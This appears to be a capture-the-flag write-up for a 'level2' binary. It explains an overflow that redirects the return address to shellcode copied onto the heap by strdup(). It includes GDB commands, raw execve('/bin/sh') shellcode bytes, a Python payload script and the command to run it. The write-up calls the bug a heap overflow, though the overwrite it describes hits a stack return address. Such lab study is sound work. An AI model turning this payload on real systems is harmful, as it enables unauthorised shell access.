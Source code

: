 LEVEL_2:
# 📚 Exploiting `level2` – Exploit the overflow to get a shell.
this is a heap overflow, we execute shellcode from the heap using strdup().

Exploit Strategy:</br>

Inject shellcode into local_50 buffer:
  - 2.strdup(local_50) copies this shellcode to heap at a predictable address (found via GDB).
  - 3.Overflow RET to point to the heap address returned by strdup().
  - 4.When p() returns → EIP = heap → shellcode executes → /bin/sh spawns.

Why This Works?</br>

NX disabled → heap is executable(Check only blocks stack addresses, not heap).</br>
ASLR off → heap address is stable (e.g., 0x0804a008).
strdup() gives us a writable+executable space for shellcode.

Find heap address after strdup() using GDB:
```
break *0x0804853d
run < <(python exploit.py)
info registers
```
Craft payload:

Shellcode: 25-byte Linux x86 execve("/bin/sh").

Padding to 76 bytes.</br>
Overwrite EBP (4 bytes).</br>
Overwrite RET with heap address.
```
from struct import pack
shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68"
    "\x68\x2f\x62\x69\x6e\x89\xe3\x50"
    "\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
)
heap_addr = 0x0804a008
payload  = shellcode
payload += "A" * (76 - len(shellcode))
payload += "B" * 4
payload += pack("<I", heap_addr)
print(payload)
```

> (python exploit.py; cat) | ./level2
